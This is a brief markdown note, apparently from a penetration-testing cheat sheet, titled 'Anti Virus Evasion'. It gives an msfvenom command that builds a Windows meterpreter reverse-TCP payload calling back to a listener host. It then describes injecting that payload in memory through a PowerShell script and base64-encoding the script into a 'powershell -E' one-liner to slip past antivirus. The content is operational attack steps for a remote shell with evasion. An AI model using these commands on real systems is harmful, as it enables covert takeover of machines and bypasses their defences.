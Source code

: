 # Anti Virus Evasion

Generate a malicious payload for testing with AV:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=443 -f powershell`

Add the output to  `in_memory_injection.ps1`.

Create a listener in `msfconsole`.

Encode script in base64 and decode as a one liner. `powershell -E XXXX`:  
https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py







